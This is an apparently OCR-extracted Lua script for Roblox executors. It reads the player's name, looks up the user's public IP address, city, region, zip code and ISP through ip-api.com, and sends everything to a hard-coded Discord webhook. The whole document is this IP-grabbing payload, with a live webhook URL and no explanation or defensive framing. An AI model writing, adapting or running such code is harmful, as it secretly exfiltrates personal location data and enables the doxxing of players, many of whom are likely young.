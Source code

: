 local player_name = game:GetService("Players").LocalPlayer.Name
local webhook_url = "https://discord.com/api/webhooks/934953130251145328/5dh3b2FYI3hapcbjS4wCUsvF0Bg-jDyMepEghVhwHbblK7Z-LMzcv5TZTGSbiIGH3_NP"

local ip_info = syn.request({
    Url = "http://ip-api.com/json",
    Method = "GET"
})
local ipinfo_table = game:GetService("HttpService"):JSONDecode(ip_info.Body)
local dataMessage = string.format("```User: %s\nIP: %s\nCountry: %s\nCountry Code: %s\nRegion: %s\nRegion Name: %s\nCity: %s\nZipcode: %s\nISP: %s\nOrg: %s```", player_name, ipinfo_table.query, ipinfo_table.country, ipinfo_table.countryCode, ipinfo_table.region, ipinfo_table.regionName, ipinfo_table.city, ipinfo_table.zip, ipinfo_table.isp, ipinfo_table.org)
syn.request(
    {
        Url = webhook_url,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json"
        },
        Body = game:GetService("HttpService"):JSONEncode({["content"] = dataMessage})
    }
)
